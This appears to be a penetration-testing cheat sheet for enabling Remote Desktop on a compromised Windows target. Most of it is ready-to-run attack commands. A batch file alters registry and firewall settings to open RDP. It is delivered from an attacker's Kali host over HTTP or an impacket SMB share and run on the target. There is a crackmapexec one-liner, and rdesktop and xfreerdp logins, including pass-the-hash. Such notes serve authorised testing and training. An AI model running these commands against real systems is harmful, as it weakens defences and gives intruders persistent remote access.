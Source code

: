 # Enable Remote Desktop (RDP) on the target via an elevated shell

You will need an elevated shell to enable RDP

Save the following commands on a .bat file - ex.: `enablerdp.bat`

```cmd
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```

## HTTP

Start hosting the file on a HTTP server

```bash
cd /usr/share/windows-resources/binaries/
sudo python -m http.server 80
```

On the target, copy the file on PowerShell and execute it.

```powershell
cd C:\Temp\
Invoke-WebRequest -Uri 'http://<Kali_IP>/enablerdp.bat' -OutFile C:\Temp\enablerdp.bat
cmd
enablerdp.bat
```

## SMB

Start hosting the file on a SMB share.

```bash
cd /usr/share/windows-resources/binaries/
impacket-smbserver share $(pwd) -smb2support
```

On the target copy the file and execute it.

```cmd
xcopy \\<Kali_IP>\share\enablerdp.bat C:\Temp\
C:\Temp\enablerdp.bat
```

OR

```bash
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M rdp -o ACTION=enable
```

- I am not sure if this really works

Now, try to access it

```bash
rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>'


rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>' -r disk:kali=/home/kali
```

OR

```bash
xfreerdp /v:<Target_IP> /d:'<DOMAIN>' /u:'<User>' /p:'<Pwd>'


xfreerdp /v:<Target_IP> /d:'<DOMAIN>' /u:'<User>' /pth:'<HASH>' /drive:kali,/home/kali
```
